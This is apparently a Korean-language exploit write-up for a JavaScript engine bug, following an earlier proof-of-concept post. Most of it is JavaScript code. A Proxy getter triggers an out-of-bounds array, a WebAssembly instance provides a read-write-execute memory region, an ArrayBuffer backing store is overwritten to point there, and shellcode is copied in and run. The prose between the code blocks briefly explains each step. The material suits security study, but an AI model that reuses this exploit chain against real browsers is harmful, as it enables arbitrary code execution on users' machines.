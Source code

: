 ```js
let wasmInstance = new WebAssembly.Instance(wasmModule);
let sh = wasmInstance.exports.main;
let rwx = aar(addrof(wasmInstance) + 0x68n);  // address of rwx memory region

// overwrite backing store
let bs = ftoi(oob_arr[12]);
bs &= 0xffffffffn;
bs |= rwx << 32n;
oob_arr[12] = itof(bs);
bs = ftoi(oob_arr[13]);
bs &= 0xffffffff00000000n;
bs |= rwx >> 32n;
oob_arr[13] = itof(bs);

// execute shellcode
let view = new DataView(buf);
for (let i = 0; i < shellcode.length; i++) {
    view.setUint8(i, shellcode[i]);  // copy shellcode in rwx memory region
}
sh();  // execute
```
<br><br><br>

우선 간단하게 이전 내용을 언급해보자면 root cause를 통해 PoC에서 Double 배열을 Object로 변경하면서 
OOB가 발생하는 것을 확인했었습니다. <br>
그 사실을 이용한 Exploit입니다. <br>

먼저 PoC 내용 이후부터 설명을 해보면 

<br><br><br>

```js
let p = new Proxy(Object, {
    get: () => {
        a[1] = {};
        oob_arr = [0.1];
        obj_arr = [{}];
        buf = new ArrayBuffer(shellcode.length);
        return Object.prototype;
    }
});
```

<br><br><br>

원래 PoC 부분에선 버퍼를 선언하는 부분이 없었는데 버퍼를 선언하는 부분이 생겼습니다. <br>
이 부분 기억하면서 진행하겠습니다. 

<br><br><br>

```js
// allocate rwx memory region
let wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 0, 11]);
let wasmModule = new WebAssembly.Module(wasmCode);
let wasmInstance = new WebAssembly.Instance(wasmModule);
let sh = wasmInstance.exports.main;
let rwx = aar(addrof(wasmInstance) + 0x68n);  // address of rwx memory region
```
